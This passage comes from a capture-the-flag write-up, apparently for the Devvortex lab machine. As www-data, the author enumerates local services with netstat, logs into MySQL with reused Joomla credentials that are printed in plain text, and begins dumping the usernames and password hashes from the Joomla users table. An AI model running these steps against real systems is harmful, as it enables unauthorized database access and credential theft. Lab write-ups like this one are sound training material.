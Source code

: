 The credentials we used to log into Joomla, were actually database credentials (Figure 5), so let's see if a DBMS[^11] exists on the machine.

{% code overflow="wrap" %}
```bash
# Enumerating local services (numeric format)
www-data@devvortex:/$ netstat -ltn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
# Enumerating local services (string format)
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ netstat -lt
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN
tcp        0      0 localhost:33060         0.0.0.0:*               LISTEN
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN
tcp6       0      0 [::]:http               [::]:*                  LISTEN
```
{% endcode %}

There is indeed a MySQL service listening on port `3306`, so let's connect and enumerate it.

{% code overflow="wrap" %}
```bash
# Connecting to the MySQL DMBS
www-data@devvortex:/$ mysql -u lewis -pP4ntherg0t1n5r3c0n## -h localhost
<SNIP>
# Listing databases
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)
# Selecting the joomla database
mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
# Listing the database's tables
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
<SNIP>
| sd4fg_users                   |
<SNIP>
+-------------------------------+
71 rows in set (0.00 sec)
# Dumping data
mysql> select username,password from sd4fg_users;
```

[^1]: Content Management System
[^2]: Remote Code Execution
[^3]: Database Management System
[^4]: Virtual Host
[^5]: Content Management System
[^6]: Living off the Land
[^7]: Proof of Concept
[^8]: Content Management System
[^9]: Proof of Concept
[^10]: Remote Code Execution
[^11]: Database Management System
[^12]: Elevation of Privileges